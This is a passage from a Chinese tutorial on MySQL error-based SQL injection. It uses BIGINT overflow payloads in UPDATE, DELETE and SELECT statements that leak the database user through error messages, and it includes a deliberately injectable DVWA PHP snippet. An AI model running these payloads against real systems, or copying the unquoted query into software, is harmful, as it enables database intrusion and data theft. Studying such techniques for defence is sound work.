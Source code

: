 ![enter image description here](http://drops.javaweb.org/uploads/images/01c8ea230aa57d0b7c177e29884296437dd5a543.jpg)

0x06 利用更新语句进行注入
=====

利用更新语句，我们照样可以进行类似的注入，具体如下所示：

```
mysql> update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

0x07 利用更新语句进行注入
=====

同样的，我们也可以利用删除语句进行注入，具体如下所示：

```
mysql> delete from users where id='1' or !(select*from(select user())x)-~0 or '';
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

0x08 小结
=====

本文的攻击之所以得逞，是因为`mysql_error()`会向我们返回错误消息，只要这样，我们才能够利用它来进行注入。 这一功能，是在5.5.5及其以上版本提供的。对于这些溢出攻击，还有许多不同的形式。 例如：

```
mysql> select !1-0^222;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(1)) - (0 ^ 222))'
mysql> select !(select*from(select user())a)-0^222;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - (0 ^ 222))'

```

此外，后端代码中的引用、双引号或括号问题，也会引起注入攻击。举例来说，如果利用DVWA修改PHP代码去掉引号， 无需前面类似的或操作就能进行注入了。

```
<?php   

if(isset($_GET['Submit'])){

    // Retrieve data

    $id = $_GET['id'];

    $getid = "SELECT first_name, last_name FROM users WHERE user_id = $id";
    $result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );

    $num = mysql_numrows($result);

    $i = 0;

    while ($i < $num) {

        $first = mysql_result($result,$i,"first_name");
        $last = mysql_result($result,$i,"last_name");

        $html .= '<pre>';
        $html .= 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
        $html .= '</pre>';

        $i++;
```
